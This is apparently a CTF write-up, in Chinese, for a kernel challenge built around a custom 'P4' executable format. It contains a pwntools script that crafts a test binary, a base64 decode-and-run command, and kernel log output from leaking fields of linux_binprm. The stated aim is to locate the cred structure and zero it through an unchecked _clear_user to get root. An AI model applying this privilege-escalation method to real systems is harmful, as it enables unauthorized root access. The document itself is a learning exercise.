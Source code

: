 ### 漏洞

`mapping_count` 改大可以 leak `linux_binprm` 其他欄位的值  
`_clear_user` 沒有檢查，可以把 kernel 上任意位址的值清空  
`linux_binprm` 有一個 `cred` 的結構，裡面存的就是 `uid, gid`  
所以我們只要 leak 出這個 `cred` 的位址，然後用 `_clear_user` 清成 0，我們的程式就是 root 權限了 ( root 的 uid 是 0 )

### 嘗試

```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode

context.arch = "amd64"

payload  = b"P4"             # magic
payload += p8(0)             # version
payload += p8(1)             # type
payload += p32(1)            # mapping_count
payload += p64(0x18)         # mapping_offset
payload += p64(0x400030)     # entry

# mapping
payload += flat(
    0x400000 | 7,
    0x1000,
    0
)

payload += asm(shellcraft.echo("test\n") + shellcraft.exit())

print(f'echo {b64encode(payload).decode()} | base64 -d > a ; chmod +x a ; ./a')
```

先寫個簡單的 p4 格式的執行檔測試一下我們的理解是不是對的  

```bash command
echo UDQAAQEAAAAYAAAAAAAAADAAQAAAAAAABwBAAAAAAAAAEAAAAAAAAAAAAAAAAAAASLgBAQEBAQEBAVBIuHVkcnULAQEBSDEEJGoBWGoBX2oFWkiJ5g8FajxYDwU= | base64 -d > a ; chmod +x a ; ./a
```

```bash output
[50353.170813] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
test
```

接下來要找 `cred` 的位址，因為 `pwn` 的 `uid` 是 1000 ( = 0x3e8 )  
所以我們把使用者切換成 `pwn`，切成 `pwn` 之後要在 `/tmp` 才可以寫檔  
然後把 `mapping_count` 改大一點，比如 `6`，在他印出的位址指向的值中找 `0x3e8`

```bash
[50800.668734] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[50800.674080] vm_mmap(load_addr=0x10101010101b000, length=0x726475b848500101, offset=0x431480101010b75, prot=0)
[50800.674550] clear_user(addr=0x10101010101b848, length=0x726475b848500101)
[50800.675372] vm_mmap(load_addr=0x6a5f016a58016000, length=0x6a050fe689485a05, offset=0x50f583c, prot=4)
[50800.675786] vm_mmap(load_addr=0x0, length=0x0, offset=0x0, prot=0)
[50800.676003] vm_mmap(load_addr=0x0, length=0x7fffffffef99, offset=0x100000001, prot=0)
[50800.676260] vm_mmap(load_addr=0x0, length=0xffffa1c307595b40, offset=0x0, prot=0)
test
```
